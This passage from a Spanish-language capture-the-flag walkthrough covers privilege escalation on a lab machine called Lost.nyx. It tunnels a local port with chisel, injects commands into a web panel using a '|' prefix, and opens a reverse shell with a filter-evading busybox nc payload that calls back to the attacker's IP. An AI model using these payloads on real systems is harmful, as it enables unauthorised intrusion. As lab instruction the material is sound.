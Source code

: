 **Máquina víctima:**
```bash
wget http://192.168.200.5:8000/chisel
chmod 777 chisel
./chisel client 192.168.200.5:4000 R:3000:127.0.0.1:3000
```

Ahora se puede acceder al puerto "3000" de la máquina víctima a través del navegador en la máquina atacante.
```plaintext
http://localhost:3000
```

Este proceso proporciona un canal seguro para interactuar con el servicio en el puerto "3000" de la máquina víctima.

# Escalada de Privilegios en Lost.nyx - Continuación

## Acceso a un Panel de Ejecución de Comandos

Al acceder a la URL [http://127.0.0.1:3000](http://127.0.0.1:3000), se descubre un panel que permite la ejecución de comandos. Se utilizó la técnica de inyección de comandos, introduciendo "|" antes de cada comando para eludir las restricciones.

```plaintext
|whoami
# Resultado: jackshephard
```

## Ganar Acceso a la Máquina mediante Reverse Shell

Se logró el acceso a la máquina mediante la siguiente inyección:

```plaintext
busybox${IFS}nc${IFS}192.168.200.5${IFS}6969${IFS}-e${IFS}sh
```

[Fuente](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Command%20Injection/README.md)

Luego, se realizó el tratamiento de TTY para mejorar la interactividad de la shell.

```bash
script /dev/null -c bash
Control+Z
stty raw -echo; fg
reset xtermcd 
export TERM=xterm
export SHELL=bash
```

## Enumeración de Privilegios y Descubrimiento del Grupo "lxd"
